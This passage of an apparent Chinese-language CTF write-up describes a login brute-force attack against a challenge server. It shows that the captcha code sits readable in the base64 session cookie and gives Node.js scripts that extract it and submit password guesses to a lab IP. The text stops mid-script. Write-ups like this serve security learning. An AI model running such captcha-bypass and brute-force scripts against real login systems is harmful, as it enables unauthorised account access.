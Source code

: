 登录时首先要 cookie 中存有键 sid，且该键 sid 的值必须是 session 的一个键，然后当我们 post 中提交的 code（即验证码）跟 `session[sid]` 的值相等，且我们输入对了密码的情况下，就可以获取到 flag 了。（当然本题是暴力破解）

因此想要不断的尝试密码，首先要访问首页获取到一个 sid，存放到 cookie 的键 sid 中，即 sid=xxxxxxxxxxxxx;

然后获取验证码，然后再 post 密码和正确的对应的验证码进行尝试。

由于获取验证码的接口把验证码对应的 code 存放到了 session 中，因此我们可以很方便的从 session 中获取到对应的 code，而不用管那个验证码图片到底长什么样。这是因为 session 的字符串实际上是由一个英文的点分割的两部分组成，前一部分存放的是 base64 编码之后的 json 数据，后一部分则是使用密钥对前者进行的签名。意即前一部分存放的其实明文信息，只是经过了 base64 编码，我把前一部分提取出来，base64 解码，然后 json 解析即可顺利的获取到每一个验证码对应的 code。

具体实施时，我先使用 postman 获取了一个 sid 以及获取了一次验证码。

然后我再利用 node，来写一个自动化的网络请求脚本即可，下面是脚本内容：

首先是获取验证码：

```js
export const getCapture = async () => {
  const myHeaders = new Headers();
  myHeaders.append(
    'Cookie',
    'session=.eJwFwYkRwCAIBMBeqOAUEEw3ytNEJr1n9yWtOmCRWMFyzOHr6sTI3TN8gB7yE4pVva2uI_sCLR6cqdMSQt8PrO0TNQ.ZFhquw.WCp4NsvXmUBHcGpIrBGIIyuRQ3Y;sid=5eea0344c6c34a78086b5201d9f2c810'
  );
  const requestOptions = {
    method: 'GET',
    headers: myHeaders,
    redirect: 'follow'
  };

  const res = await fetch(
    'http://10.10.175.247:33708/getCaptcha',
    requestOptions
  ).then((response) => response);
  const sessionSetter = res.headers
    .getSetCookie()[0]
    .match(/session=([^;]*);/)[0];
  const session = res.headers.getSetCookie()[0].match(/session=([^.]*)./)[1];
  const sessionOrigin = JSON.parse(atob(session));
  const code = sessionOrigin['5eea0344c6c34a78086b5201d9f2c810'];
  return [sessionSetter, code];
};
```

这里 5eea0344c6c34a78086b5201d9f2c810
即是我直接访问主页获取到的 sid，这个在暴力尝试过程中可以保持不变

然后是进行密码的尝试：

```js
const tryIt = async (password) => {
  const [sessionSetter, code] = await getCapture();
  const myHeaders = new Headers();
  myHeaders.append('Content-Type', 'application/json');
  myHeaders.append(
    'Cookie',
    `${sessionSetter} sid=5eea0344c6c34a78086b5201d9f2c810`
  );

  const raw = JSON.stringify({
    code: code,
    password: password
  });

  const requestOptions = {
    method: 'POST',
    headers: myHeaders,
    body: raw,
```